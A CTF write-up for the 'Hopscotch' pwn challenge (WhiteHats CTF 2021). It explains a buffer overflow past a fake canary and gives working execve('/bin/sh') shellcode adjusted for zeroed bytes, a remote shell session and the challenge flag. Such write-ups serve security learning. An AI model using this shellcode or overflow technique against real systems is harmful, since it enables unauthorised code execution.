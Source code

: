 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Hopscotch
flag: WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}
points: 991
solves: 5
category: pwn 
---
```


> One childhood pasttime I never got to experience much is Hopscotch, a game where you jump and hop over boxes to reach to the goal.

> Won't you play with me?

Files given:
 - [hopscotch](hopscotch)

This challenge is a simple shellcoding exercise.

## Challenge details

There is no canery and NX bit is not set, furthermore the address to our input is printed, hence it we need to give it a proper shellcode to run.

We have a 48 byte array that we can write 96 bytes to, allowing us to overflow the return pointer. However, there is a variable right after the array acting as a 'canery' and is checked against 1337, so we will have to take care of that when overflowing.

The difficulty lies in the fact that when we input our payload, the `9,21,33,45`th bytes are set to `0`, hence we need a shellcode that has those as well.

There are 2 immediate ideas that comes to mind, a very short jump or moving 0 to a register. We can try out these in [shell-storm](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) and prepare our shellcode there. For instance the following are viable options to use when needing a 0:
 - `b"\xb0\x00", # mov al,0`
 - `b"\xb4\x00", # mov ah,0`
 - `b"\xb8\x00\x00\x00\x00", # mov eax,0`
 - `b"\xeb\x00", # jmp 2`
note that the `jmp 2` acts as a `nop` as it is `2` bytes long. Using these in mind, I simply inserted these whenever appropriate to get
```
0x00: 31 C0                          xor     eax, eax
0x02: 48 C7 C0 00 00 00 00           mov     rax, 0
0x09: 48 BB D1 9D 96 91 D0 8C 97 FF  movabs  rbx, 0xff978cd091969dd1
0x13: B0 00                          mov     al, 0
0x15: 48 F7 DB                       neg     rbx
0x18: 53                             push    rbx
0x19: 54                             push    rsp
0x1a: 5F                             pop     rdi
0x1b: 99                             cdq     
0x1c: 52                             push    rdx
0x1d: 57                             push    rdi
0x1e: 54                             push    rsp
0x1f: B0 00                          mov     al, 0
0x21: 5E                             pop     rsi
0x22: B0 3B                          mov     al, 0x3b
0x24: 0F 05                          syscall 
```

Using this we get shell and a with one very lazy grep command, we obtained the flag!

```
ariana@ariana ~/D/S/2/W/Hopscotch> py exploit.py remote
[+] Opening connection to chals.whitehacks.ctf.sg on port 20401: Done
[*] Switching to interactive mode
Enter input: $ grep -rnw "WH2021" / 2>/dev/null
/home/hopscotch/flag.txt:1:WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}
```
